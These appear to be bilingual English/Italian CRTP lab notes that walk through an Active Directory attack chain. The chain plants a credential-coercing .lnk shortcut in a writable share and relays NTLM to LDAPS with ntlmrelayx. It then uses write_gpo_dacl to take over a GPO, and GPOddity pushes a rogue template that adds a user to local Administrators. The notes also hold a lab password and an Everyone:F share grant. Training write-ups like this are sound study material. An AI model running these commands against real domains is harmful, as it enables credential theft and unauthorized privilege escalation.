

> [!IMPORTANT] Lab objective
> Abuse excessive permissions on **DevOps Policy** to add `student555` to the **local Administrators** group on `dcorp-ci`.
>
> The attack has two distinct authorization steps:
> 1. Use an NTLM relay scenario to obtain control over the GPO's access permissions.
> 2. Abuse the resulting GPO permissions to introduce a policy change that affects `dcorp-ci`.
>
> **Final validation:** verify remote access to `dcorp-ci` using WinRS.


> [!NOTE] 
> In questo laboratorio **non partiamo come amministratori locali di `dcorp-ci`**. Sappiamo però che una GPO applicata a quella macchina, **DevOps Policy**, è controllabile dall'account `DEVOPSADMIN`.
>
> Sfruttiamo prima una situazione di **autenticazione NTLM inoltrata verso LDAPS** per ottenere la possibilità di modificare i permessi della GPO. Poi usiamo quei permessi per predisporre una modifica che aggiunga `student555` agli amministratori locali di `dcorp-ci`.
>
> È essenziale distinguere **ottenere il diritto di modificare la GPO** da **ottenere effettivamente privilegi amministrativi su una macchina cui la GPO si applica**: sono due fasi diverse.


## Attack flow

  



  

---
## 1. Identify the GPO attack path in BloodHound

From BloodHound, we have identified the following relationships
- `DEVOPSADMIN` has **generic permissions** over **`DEVOPS POLICY`**.
- **`DEVOPS POLICY`** affects the computer **`dcorp-ci`**.
- We want the policy to ultimately make `student555` a local administrator on `dcorp-ci`.

![[Pasted image 20261122195626.png]]

  
**Why it matters:** Group Policy can control local group membership and other settings on computers within the scope of the policy. A principal that can modify a GPO or its permissions can potentially influence those computers.


> [!NOTE] 
> BloodHound ci mostra una relazione tra tre oggetti: l'account `DEVOPSADMIN`, la GPO `DEVOPS POLICY` e il computer `dcorp-ci`.
>
> **L'obiettivo non è diventare subito `DEVOPSADMIN`**, ma usare un'operazione autenticata con i suoi privilegi per ottenere permessi di scrittura sulla GPO. Successivamente `student555` potrà essere associato alla modifica di policy nel laboratorio.
>
> Una GPO collegata al computer **non significa** che qualunque modifica avrà effetto immediato: l'applicazione dipende dalla configurazione e dall'elaborazione dei criteri di gruppo.

  
## 2. Prepare the shortcut that triggers an authenticated HTTP request

 What we want to do here is to use a **Windows shortcut (`.lnk`)** placed in a writable network share. 
 Its target launches PowerShell and makes an HTTP request using the current user's default credentials.

First, identify the IP address of our student workstation:
```powershell
ipconfig
```

The shortcut **Target** shown in the lab notes is:
```powershell

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke-WebRequest -Uri 'http://172.16.100.55' -UseDefaultCredentials"

```
  

**Shortcut creation :**
1. On the student workstation, go to `C:\AD\Tools\`.
2. Select **New → Shortcut**.
3. Paste the above text into the shortcut target.

- ![[Pasted image 20261119184623.png|354]]  
- ![[Pasted image 20261119184723.png|357]]
- ![[Pasted image 20261119184735.png|367]]


| `powershell.exe -Command` | Starts PowerShell and runs the supplied command. |
| `Invoke-WebRequest` | Performs an HTTP request. |
| `-Uri 'http://172.16.100.55'` | Points to the HTTP endpoint on the student workstation. |
| `-UseDefaultCredentials` | Allows the web request to use the current Windows security context for HTTP authentication when challenged. |


> [!NOTE] 
> Il collegamento `.lnk`  contiene un comando che chiede a PowerShell di contattaredi `student555`.
> 
> `-UseDefaultCredentials` indica che la richiesta HTTP può autenticarsi usando le credenziali Windows disponibili nel contesto dell'utente che la esegue.
> 
> **Non garantisce che vengano inviate credenziali a ogni URL**: il comportamento dipende dal protocollo di autenticazione e dalla risposta del server.

## 3. Discover the Domain Controller address
Before configuring the listener, we need the Domain Controller's IP address.

### 3.1 Prepare PowerShell and load PowerView

```powershell
. C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

. C:\AD\Tools\PowerView.ps1
```

### 3.2 Retrieve Domain Controller information

```powershell
Get-DomainController | select name,IPAddress
```
- ![[Pasted image 20261119185753.png|497]]
  
The IP of the domain controller:
```text
Domain Controller IP: 172.16.2.1
```

  
> [!NOTE] 
> Ci serve sapere dove si trova il Domain Controller perché nel laboratorio il relay è indirizzato al suo servizio **LDAPS**.
>
>`Get-DomainController` recupera informazioni sui Domain Controller; `select name,IPAddress` mostra solo i campi utili. La preparazione con InviShell e PowerView è riportata una sola volta per evitare ripetizioni.

## 4. Configure the NTLM relay listener

To set th elistener we will use `ntlmrelayx.py` from the Ubuntu shell in WSL.
- ![[Pasted image 20261119185251.png|578]]

### 4.1 Start WSL and the listener
The concrete command to run the listener:
```bash
sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.55 --http-port '80,8080' -i --no-smb-server
```
- ![[Pasted image 20261119185941.png|564]]

| `-t ldaps://172.16.2.1` | Sets the LDAPS destination on the Domain Controller. |
| `-wh 172.16.100.55` | Configures the HTTP host used by this relay workflow. |
| `--http-port '80,8080'` | Specifies the HTTP listening ports. |
| `-i` | Enables the interactive relay mode. |
| `--no-smb-server` | Disables the tool's SMB listener. |

  

>[!NOTE] 
>**Lab notes:**
> WSL password: `WSLToTh3Rescue!` (see Lab Material).
>  The lab notes specify disabling the firewall for the exercise.
>   HFS must be closed if it occupies port `80`.

  
> [!NOTE] 
> In questa fase impostiamo un servizio HTTP che può ricevere una richiesta autenticata e, nello scenario del laboratorio, **inoltrare l'autenticazione NTLM verso LDAPS** sul Domain Controller.
>
> L'opzione `-i` è importante perché la fase successiva delle note utilizza una sessione interattiva locale esposta dallo strumento.

  
### 4.2 Resolve port 80 conflicts (only if necessary)
If the listener cannot bind to port `80`, identify which process is using it:
```powershell
Get-NetTCPConnection -LocalPort 80 -State Listen -ErrorAction SilentlyContinue | Select-Object LocalAddress, LocalPort, OwningProcess
```
- ![[Pasted image 20261119191830.png]]

Then we inspect the returned process ID:
```powershell
Get-Process -Id 7052 | Select-Object Id, ProcessName, Path
```
- ![[Pasted image 20261119191906.png|580]]

In this specific execution, the process is HFS and we have to stop it:
```powershell
Stop-Process -Id 7052 -Force
```

  

> [!NOTE] 🇮🇹 Spiegazione
> `ntlmrelayx.py` deve poter ascoltare sulle porte configurate. Se HFS usa già la `80`, si crea un conflitto.
> 
> `Get-NetTCPConnection` ci dice quale PID occupa la porta; 
> `Get-Process` identifica il programma; 
> `Stop-Process` lo termina. Quest'ultimo comando è **distruttivo per il processo** e ha senso solo quando sappiamo esattamente cosa stiamo interrompendo nel laboratorio.
>
## 5. Place the shortcut in the writable SMB share

SMBHunt showed that the **`Everyone`** principal can write to the `AI` directory on `dcorp-ci.dollarcorp.moneycorp.local`.
- ![[Pasted image 20261119190234.png|503]]

  
So we will copy the `lnk` we created into this `Share`:
```cmd
copy "C:\AD\Tools\student555.lnk" "\\dcorp-ci\AI\"
```
- ![[Pasted image 20261119193246.png]]

An equivalent file-copy example in PowerShell is
```powershell
Copy-Item -Path "C:\AD\Tools\student555.lnk" -Destination "\\dcorp-ci\AI\"
```

  

> [!IMPORTANT] 
> Il punto debole individuato da SMBHunt è che una cartella condivisa su `dcorp-ci` risulta scrivibile da `Everyone`.
>
> La cartella fornisce un punto in cui il collegamento può essere trovato o utilizzato da altri utenti. **La sola copia del file non significa che il link sia stato eseguito**: per ottenere la connessione serve che si verifichi l'interazione prevista dal laboratorio.


## 6. Observe the incoming connection and the interactive relay session

We can see that `ntlmrelayx.py` did the relay on the credentials and started a shell oh `127.0.0.1:11000`:![[Pasted image 20261119193401.png]]

So we have to start a `nc` server in order to interact with the request we will receive:
```bash
nc 127.0.0.1 11000
```
- ![[Pasted image 20261119193557.png]]

>[!IMPORTANT]
>We have access to `DEVOPSADMIN` machine with the credentials we  relay on


**What this indicates:** the local port `11000` is used by the interactive mode shown in the lab. This is separate from the incoming HTTP listening ports.

> [!NOTE] 
> Fin qui abbiamo preparato il collegamento, il punto di ricezione HTTP e l'eventuale inoltro dell'autenticazione. Gli screenshot degli appunti mostrano una connessione ricevuta.
>
> `nc` è Netcat: in questo caso si collega alla porta locale della sessione interattiva messa a disposizione dal processo di relay. 
> **Non rappresenta ancora l'accesso amministrativo a `dcorp-ci`**; siamo nella fase in cui si tenta di usare i privilegi dell'identità autenticata per modificare Active Directory.

## 7. Obtain the ability to modify DevOps Policy
The next objective is to change the GPO permissions so that `student555` can modify **DevOps Policy**.
### 7.1 Find the relevant GPO link

```powershell
Get-NetOU | select name, gplink
```
- ![[Pasted image 20261119193822.png]]

The GPO identifier is:
```text
0BF8D01C-1F62-4BDC-958C-57140B67D147
```

### 7.2 Modify the GPO permissions in the recorded interactive session

```text
write_gpo_dacl student555 {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```
- ![[Pasted image 20261119194201.png]]
* We have a shell on `devopsadmin` that can affect `DEVOPS` GPO

> [!IMPORTANT] Result of this phase
> The intent of `write_gpo_dacl` is to grant `student555` rights over the specified GPO. 
> It does **not** itself add `student555` to the local Administrators group on `dcorp-ci`.
>
> The exact effective rights should be verified in the directory object's ACL; do not assume that `GenericWrite`, `GenericAll` and `WriteDACL` are interchangeable.

  

> [!NOTE] 
> Questo è il passaggio che trasforma l'autenticazione ottenuta in **una modifica dei permessi della GPO**.
>
> `Get-NetOU` permette di leggere i collegamenti tra OU e GPO; l'identificatore fra parentesi graffe è il GUID della policy interessata.
>
> Il comando `write_gpo_dacl` viene usato per far sì che `student555` possa modificare la GPO. 
> **A questo punto abbiamo ottenuto il controllo sulla policy, ma non siamo ancora amministratori di `dcorp-ci`.**

  

---
## 8. Prepare the modified GPO template using GPOddity

Now that we have write permissions over the GPO, the next step is to prepare a Group Policy template intended to add `student555` to the target's local Administrators group.

From the WSL shell:
```bash
cd /mnt/c/AD/Tools/GPOddity
```

The recorded GPOddity command is:
```bash
sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'student555' --password 'zzzz' --command 'net localgroup administrators student555 /add' --rogue-smbserver-ip '172.16.100.55' --rogue-smbserver-share 'std555-gp' --dc-ip '172.16.2.1' --smb-mode none
```
- ![[Pasted image 20261119195840.png]]
- The password can be found in the lab details.
- ![[Pasted image 20261119195638.png|453]]

| Argument| Descriptiomn|
| `--gpo-id` | Identifies the GPO by its GUID. |
| `--domain` | Specifies the target Active Directory domain. |
| `--username`, `--password` | Credentials provided to the lab tool (`zzzz` is the value recorded in the notes). |
| `--command` | Defines the local group modification intended to be applied through the policy. |
| `--rogue-smbserver-ip` | Specifies the workstation hosting the alternate GPO files. |
| `--rogue-smbserver-share` | Names the SMB share where the generated template is to be made available. |
| `--dc-ip` | Identifies the Domain Controller. |
| `--smb-mode none` | Records that the SMB share is provided separately, rather than being launched by GPOddity. |

  

> [!NOTE]
> La prima parte dell'attacco ci ha dato la possibilità di intervenire sulla GPO. 
> 
> GPOddity entra in gioco **solo adesso**, per costruire il materiale di policy che mira ad aggiungere `student555` al gruppo **Administrators locale**, non al gruppo Domain Admins.
>
> La stringa `net localgroup administrators student555 /add` rappresenta l'azione prevista sul computer che applica la policy. 
> 
> Il comando GPOddity prepara i file e il riferimento alla loro posizione, mentre la loro effettiva applicazione dipende dall'elaborazione della GPO da parte del computer.
> 
> Quello che succede è:
![[Pasted image 20261122202941.png]]

## 9. Publish the generated GPO files over SMB

This is one workflow, split into **file preparation** and **SMB publication**. 

### 9.1 Create the directory and copy the generated template
From WSL:
```bash
mkdir /mnt/c/AD/Tools/std555-gp

cp -r /mnt/c/AD/tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/std555-gp
```
- ![[Pasted image 20261119200448.png]]

The directory `GPT_Out` is where we expect the generated policy template to be available.

### 9.2 Create the SMB share

From an **administrator CMD** on the `student555` workstation:
- ![[Pasted image 20261119200224.png|383]]

```cmd
net share std555-gp=C:\AD\Tools\std555-gp

icacls "C:\AD\Tools\std555-gp" /grant Everyone:F /T
```
- ![[Pasted image 20261119200541.png|492]]

  

> [!WARNING] Very permissive share settings
> Granting `Everyone:F` provides full control over the specified files and folders to the `Everyone` principal. 
  

> [!NOTE] 
> Il template prodotto da GPOddity deve risultare disponibile nel percorso che la policy andrà a utilizzare.
>
> `mkdir` crea la cartella, 
> `cp -r` trasferisce i file generati, 
> `net share` pubblica la cartella come condivisione SMB e `icacls` modifica i permessi sul file system.
>

## 10. Check the GPO configuration
After the template preparation, we check the Group Policy object:

```powershell
Get-DomainGPO -Identity 'DevOps Policy'
```
- ![[Pasted image 20261119200759.png|581]]
- `gpcfilesyspath: \\172.16.100.55\std555-gp`

**Goal:** inspect the relevant GPO object and confirm the configuration reported after the template-related changes.


> [!NOTE] 
> Adesso verifichiamo l'oggetto GPO, invece di assumere che ogni passaggio precedente abbia funzionato.
>
> `Get-DomainGPO` recupera le proprietà della policy specificata. Il collegamento della GPO a un'OU (`gPLink`) e il percorso dei file del template (`gPCFileSysPath`) sono **proprietà diverse**: non vanno confuse.
>
## 11. Validate remote access to `dcorp-ci`

Finally, the lab verifies access to `dcorp-ci` using WinRS:
```powershell
winrs -r:dcorp-ci cmd /c "set computername && set username"

```
- ![[Pasted image 20261119210228.png]]


| `winrs` | Windows Remote Shell client. |
| `-r:dcorp-ci` | Selects the remote computer. |
| `cmd /c` | Runs a command remotely and exits. |
| `set computername` | Prints the remote computer name. |
| `&&` | Runs the next command when the previous one succeeds. |
| `set username` | Prints the username in the remote command process. |


---

  

## 12. Final recap — What did we accomplish?

1. **Discovery:** BloodHound reveals that `DEVOPSADMIN` has permissions on a GPO affecting `dcorp-ci`.
2. **Exposure:** SMBHunt finds a writable `AI` share where the `.lnk` is placed.
3. **Authentication:** The lab records an HTTP authentication/NTLM relay scenario targeting LDAPS on the Domain Controller.
4. **GPO permissions:** `write_gpo_dacl` is used to give `student555` control over the selected GPO.
5. **Policy template:** GPOddity prepares an alternate policy template intended to add `student555` to the local Administrators group.
6. **Template hosting:** The generated files are published through the `std555-gp` SMB share.
7. **Validation:** A WinRS command to `dcorp-ci` succeeds in the recorded lab.

  

> [!IMPORTANT] Concetto chiave per il CRTP
> **L'NTLM relay non ci rende automaticamente amministratori di `dcorp-ci`.** Serve, in questa catena, a ottenere un cambiamento dei **permessi sulla GPO**. La fase GPOddity introduce invece il comportamento che dovrebbe aumentare i nostri privilegi sulla macchina cui la policy si applica.
>
> La catena logica è:
>
> **Share scrivibile → autenticazione NTLM → controllo della GPO → modifica del template → policy applicata a `dcorp-ci` → verifica tramite WinRS.**

  
